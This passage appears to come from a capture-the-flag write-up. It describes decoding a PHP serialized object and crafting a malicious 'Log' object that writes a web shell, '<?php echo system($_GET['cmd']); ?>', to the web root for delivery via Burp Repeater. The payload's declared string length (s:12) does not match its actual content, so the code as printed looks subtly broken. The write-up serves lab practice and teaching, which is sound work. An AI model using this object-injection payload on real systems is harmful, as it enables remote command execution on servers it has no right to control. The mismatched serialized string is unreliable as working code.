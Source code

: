 <p>And after decoding it we get a serialized message! That's where this scripts were used. </p>

![Encoder](/img/pipe/burp_encoder.png){:class="img-responsive center-block"}

<p>Let's take a closer look at it. </p>

{% highlight text%}
O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The+Treachery+of+Images";}
{% endhighlight %}

<p>Luckily, after a long read of the scripts, their logic and how they work, I managed to write a simple serialized object that will take GET parameters as commands, and execute them. </p>

{% highlight text %}
O:3:"Log":2:{s:8:"filename";s:30:"/var/www/html/scriptz/shell.php";s:4:"data";s:12:"<?php echo system($_GET['cmd']); ?>";}
{% endhighlight %}

<p>Now it's time to encode it as URL and paste into the repeater. </p>

![Repeater](/img/pipe/burp_repeater.png){:class="img-responsive center-block"}
